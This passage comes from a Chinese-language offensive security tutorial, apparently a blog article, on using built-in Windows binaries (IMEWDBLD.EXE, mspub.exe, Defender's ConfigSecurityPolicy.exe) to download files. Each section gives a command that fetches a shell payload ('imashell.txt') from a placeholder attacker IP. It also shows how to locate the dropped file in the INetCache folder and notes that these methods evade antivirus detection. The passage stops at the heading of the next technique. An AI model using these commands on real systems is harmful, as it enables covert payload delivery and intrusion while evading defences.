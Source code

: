   
  
  
  
**12. 使用imewdbld落地文件（出网）**  
  
  
这个姿势知道的人应该相对少点，免杀效果也稍好一点，就是利用起来没这么舒服。命令如下：  
  
C:\Windows\System32\IME\SHARED\IMEWDBLD.EXE http://ip/imashell.txt  
  
![](https://mmbiz.qpic.cn/mmbiz_png/SpFfMmvE6EpfDwtrqZ5F2NhjOHdRlSSrCuEN5ibsfhiaJqxibbEzvYo2lRmZiabAJPXfU87qIRUGc8k2jVQKFdZFhQ/640?wx_fmt=png&from=appmsg "")  
  
执行之后会出现一个弹窗报错，并且我们会发现这个文件并不在当前目录下，那么它会在哪呢？我们需要用一个命令去搜索：  
  
  
forfiles /P "%localappdata%\Microsoft\Windows\INetCache" /S /M * /C "cmd /c echo @path"  
  
![](https://mmbiz.qpic.cn/mmbiz_png/SpFfMmvE6EpfDwtrqZ5F2NhjOHdRlSSrbNrCmRd63t2srQhtWhua4EgpTiahd4WINW7ZZwze5iaPgLaID3ibnMGzQ/640?wx_fmt=png&from=appmsg "")  
  
一般会保存在  
  
C:\Users\S0l4Num\AppData\Local\Microsoft\Windows\INetCache\IE\ 这个目录下，如果你的命令执行环境不允许你执行上述那样复杂的搜索命令，也可以尝试直接在这个目录下面去慢慢翻。  
  
然后imewdbld还可能出现在下面这些文件夹里：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/SpFfMmvE6EpfDwtrqZ5F2NhjOHdRlSSr7ydpk3XFukTPGWc7O7MQ8pNHtxJeFaxYK17ibV0cz8Yc716icjwEgaQQ/640?wx_fmt=png&from=appmsg "")  
  
下面我们会介绍一大波类似的玩意，都是落地在缓存文件夹，按照上述方法去找就行，就不再展示细节了，感兴趣的师傅可以自己再尝试找找windows上还有没有类似的  
  
  
  
**13. 使用Mspub.exe落地文件（出网）**  
  
  
  
  
说是windows10自带，但我本地没有，似乎是依赖office套件，这玩意的用法和上面的imewdbld类似。  
  
mspub.exe https://ip/imashell.txt  
  
![](https://mmbiz.qpic.cn/mmbiz_png/SpFfMmvE6EpfDwtrqZ5F2NhjOHdRlSSra4HibLvNVficrCFFN6GicD92R9IyvBCvWuED2R8iaL4lRedTyuE6zFMskg/640?wx_fmt=png&from=appmsg "")  
  
  
偷网上的截图，这玩意也是保存在这个INetCache文件夹  
  
  
  
  
**14.使用ConfigSecurityPolicy.exe落地文件（出网）**  
  
  
  
  
这个是Defender的文件  
  
![](https://mmbiz.qpic.cn/mmbiz_png/SpFfMmvE6EpfDwtrqZ5F2NhjOHdRlSSrmxuvu6X7y3GkDGw3uQyPU5HibOSUKswrZyicAvvnlUOpKuJZYWXgLM8g/640?wx_fmt=png&from=appmsg "")  
  
ConfigSecurityPolicy.exe https://ip/imashell.txt  
  
也是下载文件并保存在INetCache\IE缓存文件夹  
  
  
  
  
**15.使用Installutil.exe落地文件（出网）**  
  